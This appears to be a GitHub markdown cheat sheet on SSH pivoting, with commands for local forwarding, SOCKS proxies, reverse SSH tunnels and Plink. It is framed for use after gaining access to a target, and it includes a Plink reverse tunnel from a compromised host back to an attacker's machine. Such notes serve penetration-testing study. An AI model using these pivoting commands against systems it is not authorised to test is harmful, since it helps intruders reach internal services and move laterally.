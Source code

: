 #### Forward Connection
>The following command creates a link to a local port 8000 with remote host 172.16.0.10 running on port 80 utilizing the SSH access on 172.16.0.5. "-fN" flag allows us to background the shell (f) and not to execute any command after connection.
```
ssh -L localhost:8000:172.16.0.10:80 user@172.16.0.5 -fN
```

>Demo:
https://www.youtube.com/watch?v=F-ubwghsWPM

#### Create Proxies 
```
ssh -D 1337 user@ip -fN
```

#### Reverse SSH Tunneling:

![Screenshot at 2022-12-19 15-09-44](https://user-images.githubusercontent.com/85208639/208393964-1f4c4f53-e28b-493d-8b28-812d65d5d516.png)

> Lets assume we have got access to target machine (10.10.12.4) and a web-server is running on port 9000 we can use the following command to access the remote port in our local machine (10.10.12.9).

```
ssh -R localhost:4200:10.10.12.4:9000 root@10.10.12.5 -i sshkey -fN
```

#### Plink 
```
Usage :
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

>Keys generated by ssh-keygen wont work with Plink so the file must be converted using putty-tools

```
Usage :
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

